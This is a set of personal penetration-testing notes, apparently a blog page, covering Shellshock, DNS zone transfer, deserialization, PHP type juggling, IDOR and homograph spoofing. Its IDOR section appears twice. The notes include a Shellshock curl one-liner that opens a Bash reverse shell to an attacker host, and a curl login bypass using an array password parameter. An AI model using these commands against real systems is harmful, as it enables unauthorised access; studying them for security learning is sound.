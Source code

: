 ```yaml
---
title: Notes | Others
author: Zeropio
date: 2022-04-25
categories: [Notes, Vulnerabilities]
tags: [shellshock, axfr, deserialization, idor]
permalink: /notes/vulnerabilities/others
---
```



# ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
```console
> curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/myip/443 0>&1" http://example.com/
```

---

# Domain Zone Transfer (AXFR)
AXFR offers no authentication, so any client can ask a DNS server for a copy of the entire zone. This means that unless some kind of protection is introduced, an attacker can get a list of all hosts for a domain, which gives them a lot of potential attack vectors.

If we now one domian we can try:
```console
> dig @ip-domian domain.com axfr
```
This will list subdomain.
###### If we only have the ip we can use **/etc/hosts** to create the domains.

---

# Deserialization Attacks
**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.
**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

---

# Type Juggling
With **Type Juggling** during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example we can send data like this:
```console
> curl -s -X POST --data 'usuario=admin&password=1' http://[ip] | html2text
```
We will probably get an error, but if we modify the content:
```console
> curl -s -X POST --data 'usuario=admin&password[]=1' http://[ip] | html2text
```
We can log in.

---

# Insecure direct object references (IDOR)
IDOR are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

If we have a webpage similar to:
```
'https://insecure-website.com/customer_account?customer_number=132355'
```
We can modify the value to see the value of others users. Even perform horizontal and vertical privilege escalation to get additional privileges.

Other example if we get a file in the url:
```
'https://insecure-website.com/static/12144.txt'
```
We can modify the value to get another user's file.

# Insecure direct object references (IDOR)
IDOR are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly.

If we have a webpage similar to:
```
'https://insecure-website.com/customer_account?customer_number=132355'
```
We can modify the value to see the value of others users. Even perform horizontal and vertical privilege escalation to get additional privileges.

Other example if we get a file in the url:
```
'https://insecure-website.com/static/12144.txt'
```
We can modify the value to get another user's file.

---

# IDN homographic attack
The internationalized domain name homograph attack is a way a malicious party may deceive computer users about what remote system they are communicating with, by exploiting the fact that many different characters look alike. For example, a regular user of example.com may be lured to click a link where the Latin character "a" is replaced with the Cyrillic character "а". This kind of spoofing attack is also known as script spoofing.

